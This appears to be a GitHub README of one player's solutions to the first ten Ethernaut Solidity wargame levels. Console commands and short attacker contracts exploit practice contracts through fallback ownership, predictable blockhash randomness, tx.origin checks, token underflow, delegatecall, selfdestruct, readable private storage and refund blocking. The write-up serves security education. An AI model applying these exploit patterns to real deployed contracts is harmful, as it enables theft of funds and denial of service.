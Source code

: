 # Ethernaut

The Ethernaut is a Web3/Solidity based wargame inspired on overthewire.org, played in the Ethereum Virtual Machine. Each level is a smart contract that needs to be 'hacked'.
Here are my solutions for each level.

## 0.Hello Ethernaut

```
> contract.info()
< [[PromiseResult]]: "You will find what you need in info1()."

> contract.info1()
< [[PromiseResult]]: "Try info2(), but with \"hello\" as a parameter."

> contract.info2("hello")
< [[PromiseResult]]: "The property infoNum holds the number of the next info method to call."

> contract.abi

> let x = await contract.infoNum()

> x.toString()
< '42'

> contract.info42()
< [[PromiseResult]]: "theMethodName is the name of the next method."

> contract.theMethodName()
< [[PromiseResult]]: "The method name is method7123949."

> contract.method7123949()
< [[PromiseResult]]: "If you know the password, submit it to authenticate()."

> contract.password()
< [[PromiseResult]]: "ethernaut0"

> contract.authenticate("ethernaut0")
```

Submit the instance by clicking the orange button.

```(-(-_(-_-)_-)-) Well done, You have completed this level!!!```

## 1. Fallback
```
> contract.contribute({value:toWei("0.0001", "ether")})

> web3.eth.sendTransaction({to:"0x3D585bb9145ca9101D5EdA79E138D854242FF90C", 
	value:toWei("0.0001", "ether"), from:"0x76F2CCD13DB4D70DFB2114704BD9d4d6326bafA0"})
	
> contract.owner()
< [[PromiseResult]]: "0x76F2CCD13DB4D70DFB2114704BD9d4d6326bafA0"

> contract.withdraw()

> getBalance("0x3D585bb9145ca9101D5EdA79E138D854242FF90C")
< [[PromiseResult]]: "0"
```

Submit the instance by clicking the orange button.

```\,,/(◣_◢)\,,/ Well done, You have completed this level!!!```

## 2. Fallout
```
> contract.Fal1out()
```
Submit Instance

```☜Ҩ.¬_¬.Ҩ☞ Well done, You have completed this level!!!```

## 3. CoinFLip

```
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.0;

import "./CoinFlip.sol";
import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/math/SafeMath.sol";

contract Win {
    
    using SafeMath for uint256;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    CoinFlip public coinflip;
    constructor(address conFlipAddress) public {
        coinflip = CoinFlip(conFlipAddress);
    }
    // address public coinflip_add = 0x0Fd8F81a893762013486d74b6b61fA0704d07D4b;
    
    function _guess() public {
        uint256 blockValue = uint256(blockhash(block.number.sub(1)));
        uint256 coinFlip = blockValue.div(FACTOR);
        bool side = coinFlip == 1 ? true : false;
        coinflip.flip(side);
    }
}
```
Copy the Coin Flip contract into CoinFlip.sol and deploy win.sol. Call _guess() 10 times.

> contract.consecutiveWins()

## 4. Telephone 
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./Telephone.sol";

contract Hack {
    Telephone public tele;

    constructor(address tele_add) public {
        tele = Telephone(tele_add);
    }

    function change_owner(address _owner) public {
        tele.changeOwner(_owner);
    }
}

```
```
ʕ•̫͡•ʕ*̫͡*ʕ•͓͡•ʔ-̫͡-ʕ•̫͡•ʔ*̫͡*ʔ-̫͡-ʔ Well done, You have completed this level!!!
```

## 5. Token

> contract.transfer("Instance address",21)

Submit the instance 
```
٩(- ̮̮̃-̃)۶ Well done, You have completed this level!!!
```

## 6. Delegation
```
> await web3.eth.abi.encodeFunctionSignature("pwn()")
< '0xdd365b8b'

> await web3.eth.sendTransaction({from:"0x76F2CCD13DB4D70DFB2114704BD9d4d6326bafA0",
 data:"0xdd365b8b", to:"0xD59491bF35887E4A36Fb197EB5739A02f03d4516"})
 
```
Submit instance 
``` ✌(◕‿-)✌ Well done, You have completed this level!!! ```

## 7. Force 

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {
    
    function destruct(address payable _victim) public payable {
        selfdestruct(_victim);
    }

    receive() external payable {}
}
```
## 8. Vault 

```
> await web3.eth.getStorageAt("0x07D54ae8430aD22D17D499450BcA6D6b1E3E8Fe1", 1);
> await contract.unlock("0x412076657279207374726f6e67207365637265742070617373776f7264203a29")

```

## 9. King

Create a new contract: 

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {
    
    constructor (address contrac) public payable {
        contrac.call{ value: msg.value }("");
    }
    
}
```
Send >0.001 ETH while deploying.






